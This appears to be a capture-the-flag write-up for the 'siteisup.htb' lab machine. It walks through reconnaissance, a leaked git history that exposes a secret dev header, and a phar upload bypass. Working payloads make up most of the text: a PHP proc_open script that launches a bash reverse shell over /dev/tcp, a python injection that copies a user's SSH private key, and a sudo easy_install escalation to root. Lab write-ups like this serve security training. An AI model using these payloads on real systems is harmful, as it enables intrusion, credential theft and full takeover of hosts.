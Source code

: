 Initial Nmap Scan

```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Accessing siteisup.htb @ port 80

Exploring Local Git dir

```bash
Git branch -a
Git log main
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

git show 8812785e31c879261050e72e20f298ae8c43b565
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

diff --git a/.htaccess b/.htaccess
index 44ff240..b317ab5 100644
--- a/.htaccess
+++ b/.htaccess
@@ -2,3 +2,4 @@ SetEnvIfNoCase Special-Dev "only4dev" Required-Header
 Order Deny,Allow
 Deny from All
 Allow from env=Required-Header

```

Found another domain dev.siteisup.htb source code and another juicey information to access the domain 
It only access for developers Using coustom header "Special-Dev: only4dev"

Accessing dev.siteisup.htb

**FootHold**

Exploiting upload vulnerability and gain the shell but there has some fillters using to prevent to upload malicious file. we have only one way to upload a php file to gain code execution which is uploading a injected php code as phar file. Their is an another problem to gain shell the normal php shell command functions are disabled expect "proc_open" we get that info from "phpinfo" page 

Exploit using proc_open funtion

Reference [http://www.navioo.com/php/docs/function.proc-open.php](http://www.navioo.com/php/docs/function.proc-open.php)


Payload 

```php
<?php

$descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("file", "/tmp/error-output.txt", "a")
);
$process = proc_open("cat", $descriptorspec, $pipes);
if (is_resource($process)) {

  fwrite($pipes[0], 'echo "bash -i >& /dev/tcp/ip/port 0>&1 " > /tmp/shell.sh | chmod 777 /tmp/shell.sh | sh /tmp/shell.sh');
   /* fwrite writes to stdin, 'cat' will immediately write the data from stdin
   * to stdout and blocks, when the stdout buffer is full. Then it will not
   * continue reading from stdin and php will block here.
   */
  fclose($pipes[0]);
  while (!feof($pipes[1])) {
      $out .= fgets($pipes[1], 1024);
  }
  fclose($pipes[1]);
  $return_value = proc_close($process);
}
?>
```

I wrote a python script for upload the file and trigger the file  

Escalating more privileged user

**www-data to user developer**

Home dir of the user developer has a coustom binary called siteisup which belongs with to a python script called siteisup_script.py and the binary has the setuid permission . Just run the binary and inject python system codes

Paylod for getting the developer ssh Key

```python
__import__("os")os.system("cat /home/developer/.ssh/id_rsa > /tmp/key")
```
**Privilege Escalation**

There is a Binary called  easy_install which has the permission running as superuser(Sudo)

Exploit 

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
Reference [GtfoBin](https://gtfobins.github.io/gtfobins/easy_install/)



